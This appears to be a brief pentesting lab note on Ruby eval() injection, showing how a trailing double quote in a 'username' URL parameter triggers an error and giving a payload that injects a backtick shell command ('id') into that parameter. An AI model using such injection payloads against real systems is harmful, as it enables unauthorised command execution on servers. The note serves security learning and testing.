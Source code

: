 # Eval() in Ruby



```ruby
# Add a " (double-quote) at the end and you will see an error.

https://ptl-3d9b6ba3-e492b0d5.libcurl.so/?username="
https://ptl-3d9b6ba3-e492b0d5.libcurl.so/?username=iptracej"
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```bash
# Add the following payload: 
# "+`id`+" 

https://<URL>/?username="%2b`id`%2b"
```
